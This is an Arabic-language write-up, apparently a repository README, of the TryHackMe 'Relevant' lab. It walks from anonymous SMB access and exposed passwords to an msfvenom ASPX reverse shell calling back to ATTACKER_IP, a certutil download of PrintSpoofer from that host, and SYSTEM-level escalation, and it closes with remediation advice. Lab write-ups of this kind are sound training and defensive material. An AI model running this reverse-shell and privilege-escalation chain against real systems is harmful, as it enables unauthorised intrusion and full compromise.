

# Relevant — تقرير اختبار الاختراق الشامل

[English Version](README.md) | [📖 قراءة التقرير بالعربية](README_AR.md)
[📄 تحميل التقرير الأصلي بصيغة DOCX](./Relevant_Penetration_Testing_Report.docx)

---

## 📋 بطاقة الهدف والمعلومات العامة

| العنصر | التفاصيل |
| :--- | :--- |
| **اسم الماشين** | Relevant (منصة TryHackMe) |
| **نظام التشغيل** | Windows Server 2016 |
| **مستوى الصعوبة** | متوسط (Medium) |
| **نوع التقييم** | فحص شبكات وسيرفرات ويندوز + تصعيد صلاحيات التوكنات |
| **أبرز الثغرات** | مشاركة SMB قابلة للكتابة بدون مصادقة، ربط مجلد المشاركة بخادم IIS، ثغرة `SeImpersonatePrivilege` |
| **موطئ القدم الأولي** | رفع شل عكسي بصيغة `.aspx` عبر الـ SMB وتشغيله عبر الويب |
| **تصعيد الصلاحيات (PrivEsc)** | استخدام أداة `PrintSpoofer` لاستغلال التوكن والوصول لـ `SYSTEM` |

---

## 🎯 مسار الهجوم (Attack Chain)



---

## 🔍 جدول ملخص الثغرات

| الثغرة | مستوى الخطورة | المنفذ | التأثير |
| :--- | :---: | :---: | :---: |
| **مشاركة SMB عامة تقبل الكتابة** | عالي (High) | بورت 445 (SMB) | رفع وتعديل الملفات بدون إذن |
| **ربط مجلد الملفات بخادم الويب IIS** | حرج (Critical) | بورت 49663 (IIS) | تنفيذ أكواد ASPX خبيثة عن بُعد (RCE) |
| **تمكين صلاحية SeImpersonatePrivilege** | عالي (High) | محلي (Local) | انتحال صلاحيات الـ SYSTEM عبر الأنابيب المسماة |

---

## 🛠️ خطوات الهجوم العملية (Walkthrough)

### 1. الاستطلاع وفحص المنافذ
أظهر فحص `nmap` منافذ ويندوز القياسية (135, 139, 445, 3389) بالإضافة إلى خادم ويب IIS إضافي يعمل على المنفذ العالي `49663/tcp`.

### 2. فحص مشاركات SMB واكتشاف الثغرة المركبة
* تم الاتصال بمشاركات الملفات كـ Anonymous:
```bash
smbclient -L //<TARGET_IP>/ -N
```
* تم اكتشاف مجلد باسم `nt4wrksv` يتيح القراءة والكتابة للجميع.
* داخل المجلد، وُجد ملف `passwords.txt` يحتوي على كلمات سر مشفرة بـ Base64 لمستخدمين هما Bob و Bill.
* عند فحص خادم الويب على البورت `49663`:
```bash
curl http://<TARGET_IP>:49663/nt4wrksv/passwords.txt
```
**المفاجأة:** الملف متاح عبر الويب! هذا يعني أن مجلد الـ SMB هو نفسه مسار الموقع، وأي ملف يتم رفعه على SMB يمكن تنفيذه مباشرة عبر المتصفح.

### 3. رفع الشل العكسي والحصول على موطئ قدم
1. توليد شل ASPX باستخدام `msfvenom`:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f aspx -o shell.aspx
```
2. رفع الشل إلى السيرفر عبر SMB:
```bash
smbclient //<TARGET_IP>/nt4wrksv -N -c "put shell.aspx"
```
3. تشغيل مستمع Netcat ثم طلب الملف عبر المتصفح:
```bash
curl http://<TARGET_IP>:49663/nt4wrksv/shell.aspx
```
تم استلام الاتصال العكسي بصلاحية مستخدم الخدمة `iis apppool\defaultapppool`.

### 4. تصعيد الصلاحيات عبر أداة PrintSpoofer
* بفحص صلاحيات الحساب الحالي:
```cmd
whoami /priv
```
تبيّن أن صلاحية `SeImpersonatePrivilege` مفعلة (Enabled).
* بما أن النظام يعمل بنسخة **Windows Server 2016**، فإن أفضل أداة لاستغلال Named Pipes والـ Print Spooler هي أداة **PrintSpoofer**:
```cmd
certutil -urlcache -f http://ATTACKER_IP/PrintSpoofer64.exe PrintSpoofer.exe
PrintSpoofer.exe -i -c cmd
```
* فور تشغيل الأمر، تم استنساخ توكن الـ SYSTEM والتحول مباشرة إلى أعلى سلطة:
`NT AUTHORITY\SYSTEM`.

---

## 🛡️ توصيات الحماية والمعالجة (Remediation)
1. **قفل مشاركات SMB:** حظر الدخول المجهول (Anonymous / Guest) وفرض كلمات سر معقدة.
2. **فصل مسارات الملفات:** منع جعل مجلدات التخزين المشتركة قابلة للتنفيذ كـ Web Virtual Directories.
3. **تطبيق مبدأ الصلاحيات الأقل (Least Privilege):** سحب صلاحيات `SeImpersonatePrivilege` من حسابات IIS التطبيقية غير الضرورية.
